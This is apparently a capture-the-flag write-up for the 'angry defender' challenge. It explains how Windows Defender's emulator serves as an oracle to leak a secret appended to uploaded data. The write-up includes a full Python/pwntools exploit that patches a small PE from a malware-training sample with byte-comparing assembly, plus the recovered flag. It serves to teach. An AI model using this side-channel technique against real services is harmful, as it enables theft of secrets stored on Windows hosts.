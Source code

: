 # Description

> The flag is everywhere. You just need to catch it.
>
> Hint: Javascript doesn't make Defender angry enough.

# Analysis

```python
SECRET = os.environ["FLAG"].encode("ascii")
MAX_DATA_SIZE = 1024 * 1024
CACHE_FOLDER = "c:\\storage"
CACHE_SIZE = 256
```

- Constants tell us this application is running under windows system because the path has driver volume (`C:`)

```python
@app.route("/cache", methods=["PUT"])
def put() -> str:
    data = request.data
    if MAX_DATA_SIZE < len(data):
        abort(403)
    id = uuid.uuid4()
    lru.write(id.hex, data + SECRET)
    return str(id)
```

- `cache` handler appends the flag after our input and just return the key of lru cache.


```python
@app.route("/cache/<key>", methods=["GET"])
def get(key: str) -> bytes:
    id = uuid.UUID(key)
    try:
        blob = lru.read(id.hex)
    except KeyError:
        abort(404)
    data = blob[: -len(SECRET)]
    if data + SECRET != blob:
        abort(500)
    return data
```

- and then we can compare a http status code to see if someone(ok, windows defender) changed or deleted our input (=file).
- It's another version of icchy's [slide](https://speakerdeck.com/icchy/lets-make-windows-defender-angry-antivirus-can-be-an-oracle). 
- Unfortunately, we cannot add trailing bytes after the flag, it means, we cannot make a valid string token.

# Exploitation

**Windows Defender's Emulator is AWESOME**  

- According to Alexi's [slide](https://i.blackhat.com/us-18/Thu-August-9/us-18-Bulazel-Windows-Offender-Reverse-Engineering-Windows-Defenders-Antivirus-Emulator.pdf), windows defender also emulates a PE format exe.
- `MAX_DATA_SIZE` is < 1MB, we had to make a tiny PE file and would allow the flag to be recongnized as code(or attach to a memory).
- The first try is [http://www.phreedom.org/research/tinype/](http://www.phreedom.org/research/tinype/).

![./images/1.png](./images/1.png)

- good,
- we searched a lot on google but we could not find any way to an emulator to detect as virus.
- soon, I remember that rpisec is doing an malware traning course. their hacking skills are nice (as far as i know), so they have a tiny pe with malware sample? (I know that this was not a logical thinking. Yes I was lucky XD)
- after downloading a lecture 4, windows defender detected it as a malware. and then I added a '\xcc' (int 0x3) to the first code offset (0x200), surprisingly windows defender did not detect as a malware.

```python
#!/usr/bin/env python2 
# flag: p4{c4n_y0u_pr1n7_73n5h4-h0_w17h0u7_b07h_h4nd5?}
import requests
import time
import string

# 31 C0 83 F8 01 EB 01 90 90 CC CC
a = open('juno.exe', 'rb').read() # is inside a same directory.

b = a[:512]
c = a[512:]

from pwn import *

import string

def gogo(index, t):
    payload = asm(('''
            call a
            a:
            pop ebx
            add ebx, %d
            xor eax, eax
            mov al, byte ptr [ebx]
            cmp al, {what}
            jz b
            int 0x3
            b:
            ''' % (len(c) + 0x10 + index)).format(what=ord(t)))

    a = b + payload + c

    tmpkey = requests.put('http://angry-defender.zajebistyc.tf/cache', data=a).text
    res = requests.get('http://angry-defender.zajebistyc.tf/cache/{tmpkey}'.format(tmpkey=tmpkey))
    if res.status_code == 500:
        print 'wtf[%d]="%s"' % (index, t)


index = 0

import sys


# for i in xrange(36, 40):
for t in string.printable:
    t = threading.Thread(target=gogo, args=(int(sys.argv[1]), t))
    # t = threading.Thread(target=gogo, args=(i, t))
    t.start()

a = raw_input()
```
